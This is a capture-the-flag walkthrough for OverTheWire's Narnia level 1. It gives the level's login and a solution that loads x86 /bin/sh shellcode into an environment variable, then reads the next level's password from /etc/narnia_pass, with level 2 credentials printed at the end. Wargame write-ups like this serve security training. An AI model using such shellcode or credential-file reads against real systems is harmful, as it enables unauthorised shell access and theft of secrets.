 ### Narnia Level 1

[narnia1](http://overthewire.org/wargames/narnia/narnia1.html)

**Username**: *narnia1*

**Password**: *efeidiedae*

### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
cat /etc/narnia_pass/narnia2
```

#### Credentials for Level 2

**Username**: *narnia2*

**Password**: *nairiepecu*

